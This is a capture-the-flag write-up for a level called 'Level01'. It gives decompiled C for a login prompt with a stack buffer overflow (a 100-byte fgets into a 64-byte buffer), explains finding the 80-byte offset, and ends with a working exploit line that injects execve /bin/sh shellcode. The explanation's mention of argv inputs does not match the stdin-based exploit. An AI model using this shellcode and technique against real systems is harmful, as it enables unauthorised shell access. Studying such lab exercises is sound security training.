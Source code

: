 
# Level01
## Code
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

char username[100];

int verify_user_name()
{
  puts("verifying username....\n");
  return memcmp(username, "dat_wil", 7) != 0;
}

int verify_user_pass(const void *a1)
{
  return memcmp(a1, "admin", 5) != 0;
}

int main(int argc, const char **argv, const char **envp)
{
    char s[64];
    int  exists; 

    memset(s, 0, sizeof(s));
    exists = 0;
    puts("********* ADMIN LOGIN PROMPT *********");
    printf("Enter Username: ");
    fgets(username, 256, stdin);
    exists = verify_user_name();
    if (exists)
    {
        puts("nope, incorrect username...\n");
    }
    else
    {
        puts("Enter Password: ");
        fgets(s, 100, stdin);
        exists = verify_user_pass(s);
        puts("nope, incorrect password...\n");
    }
    return 1;
}
```
## Explanation
- This program asks for a username and a password.

- When decompiling the code, we can easily see what it expects as username and password, respectivey "dat_wil" and "admin"

- The problem is that the return of the function `verify_user_pass()` doesn't change anything, the program will print `"nope, incorrect password..."` no matter what you give it.

- But the interesting part is that the `fgets()` for the password writes up to 100 bytes in a 64 bytes buffer, therefore we can easily overflow this to reach the return address of the `main()` function.

- Thanks to https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/ , we managed to find the offset of the return address by provoking a segfault with gdb. This offset is 80 bytes.

- So all we had to do was give "dat_wil" as `argv[1]` and a shellcode followed by the necessary amount of random bytes to reach the offset of 80, followed by the address of our string buffer as `argv[2]`.
## Exploit

```
(python -c'print "dat_wil"' ; python -c'print "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 56 + "\xec\xd6\xff\xff"' ; cat)  | ./level01
```

